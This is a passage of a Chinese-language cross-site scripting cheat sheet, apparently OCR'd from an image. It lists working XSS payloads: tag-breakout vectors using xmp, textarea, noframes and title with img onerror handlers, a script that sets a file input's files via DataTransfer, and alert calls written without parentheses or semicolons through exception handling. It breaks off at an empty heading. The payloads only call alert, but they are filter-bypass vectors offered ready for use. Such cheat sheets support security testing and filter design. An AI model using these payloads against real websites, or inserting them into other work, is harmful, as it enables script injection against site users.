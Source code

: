 #### **xmp 消费标签**

```
<xmp><img title="</xmp><img src onerror=alert(1)>"></xmp>
```

#### **textarea 消费标签**

```
<textarea><img title="</textarea><img src onerror=alert(1)>"></textarea>
```

#### **无帧消费标签**

```
<noframes><img title="</noframes><img src onerror=alert(1)>"></noframes>
```

#### **标题消费标签**

```
<title><img title="</title><img src onerror=alert(1)>"></title>
```

### **文件上传攻击**

#### **将 Blob 添加到文件对象**

```
<input type="file" id="fileInput" /><script>const fileInput = document.getElementById('fileInput');const dataTransfer = new DataTransfer();const file = new File(['Demo!'], 'demo.txt', {type: 'text/plain'});dataTransfer.items.add(file);fileInput.files = dataTransfer.files</script>
```

### **受限字符**

我们的跨站点脚本备忘单的这一部分讨论了受限字符。

#### **无括号使用异常处理**

```
<script>onerror=alert;throw 1</script>
```

#### **没有使用异常处理的括号，没有分号**

```
<script>{onerror=alert}throw 1</script>
```

#### **没有使用异常处理的括号，没有使用表达式的分号**

```
<script>throw onerror=alert,1</script>
```

#### **无括号使用异常处理和评估**
